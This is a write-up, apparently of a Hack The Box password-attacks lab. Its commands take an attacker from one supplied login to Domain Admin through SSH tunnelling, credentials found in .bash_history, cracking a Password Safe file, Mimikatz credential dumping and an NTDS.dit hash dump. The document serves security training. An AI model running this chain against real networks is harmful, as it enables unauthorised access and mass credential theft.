










# Password Attacks - Skills Assessment Write-up

## Overview

In this assessment, we are provided with initial credentials for user **Betty Jayde** (`Texas123!@#`). These credentials serve as a foothold for accessing the network and pivoting to internal systems.


## Host Enumeration

Start by scanning the target host:

```bash
sudo nmap -sS -p- -T4 10.129.X.X
```

### Results:
```
PORT     STATE SERVICE
22/tcp   open  ssh
```

Only SSH is open. Based on the given name format, we attempt username enumeration using patterns like:

- `firstnamelastname`
- `firstinitiallastname`
- `firstname.lastname`

Eventually, we identify the correct username and successfully authenticate:

```bash
ssh -D 9050 <DMZ_username>@10.129.X.X
```



We add the `-D 9050` flag to enable **dynamic port forwarding**, as this host is our pivot into the internal network.


## Host Recon & Credential Discovery

Once on the host (`DMZ01`), we check `.bash_history` and discover an SSH command with credentials:

```bash
sshpass -p ***** ssh <domain_user1>@file01
```

These credentials allow access to another machine on the internal network.


## Internal Access via RDP

Configure **proxychains** by adding:

```ini
socks4 127.0.0.1 9050
```

Then, initiate an RDP session using the found credentials:

```bash
proxychains xfreerdp /v:172.16.119.7 /u:<domain_user1> /p:*****
```



A certificate mismatch warning appears, but we proceed. We successfully gain GUI access to the system.


## Password Store Extraction

On the desktop, a **Password Safe** application was spotted.



While no files were saved in the app directly, a `.psafe3` file was found by exploring **Recent Files** in the GUI.



We reconnect via RDP and mount a shared folder to exfiltrate the file:

```bash
proxychains xfreerdp /v:172.16.119.7 /u:<domain_user1> /p:***** /drive:/home/htb-ac-1689766,share
```




## Cracking the Password Safe

Using `pwsafe2john`, we convert the `.psafe3` file into a hash and crack it using John the Ripper:

```bash
pwsafe2john <file.psafe3> > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```




## Harvested Credentials

The decrypted database contains several users and old passwords.



These can be tested to gain additional access.


## Lateral Movement & Privilege Escalation

Using credentials for one of that domain users `<domain_user2>`, we can RDP into the host again:

```bash
proxychains xfreerdp /v:172.16.119.7 /u:<domain_user2> /p:***** /drive:/home/htb-ac-1689766,share
```

This user has administrative access. We leverage this to drop and execute **Mimikatz** for credential dumping:

```powershell
cd C:\Temp\x64
mimikatz.exe
privilege::debug
sekurlsa::logonpasswords
```

We obtain cleartext credentials and NTLM hashes, including for another domain user `<domain_user3>`.


## Domain Admin Access

Using `<domain_user3>`'s credentials, we authenticate to the **Domain Controller**:

```bash
proxychains xfreerdp /v:172.16.119.11 /u:<domain_user3> /p:*****
```



On the system, we confirm group membership:

```powershell
net user <domain_user3>
```



Output confirms `<domain_user3>` is part of **Domain Admins**.


## Dumping NTDS.dit (Domain Hashes)

We use `ntdsutil` via **nxc (netexec)** to dump domain hashes:

```bash
sudo proxychains -q nxc smb 172.16.119.11 -u <domain_user3> -p ***** -M ntdsutil
```



Dumped NTLM hashes include:

```
Administrator:500:<LM>:<NT>
Guest:501:<LM>:<NT>
<domain_user1>:1105:<LM>:<NT>
<domain_user2>:1107:<LM>:<NT>
<domain_user3>:1106:<LM>:<NT>
```

Most importantly, the NT hash of `nexura\Administrator` is obtained — this grants complete control over the domain.


## Conclusion

We successfully:

- Gained initial access using provided credentials.
- Pivoted through the environment via dynamic port forwarding.
- Extracted and cracked a password store.
- Performed lateral movement using harvested credentials.
- Escalated privileges to **Domain Admin**.
- Dumped the **NTDS.dit** to obtain all domain hashes.

This assessment demonstrated key skills in password attacks, pivoting, RDP tunneling, and post-exploitation techniques.

